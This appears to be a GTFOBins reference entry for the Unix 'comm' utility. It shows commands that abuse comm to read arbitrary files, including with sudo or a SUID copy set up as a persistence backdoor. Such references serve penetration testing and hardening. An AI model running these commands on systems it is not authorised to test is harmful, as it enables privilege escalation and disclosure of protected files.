 # GTFOBin: comm

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
comm $LFILE /dev/null 2>/dev/null
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which comm) .

LFILE=file_to_read
comm $LFILE /dev/null 2>/dev/null
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo comm $LFILE /dev/null 2>/dev/null
```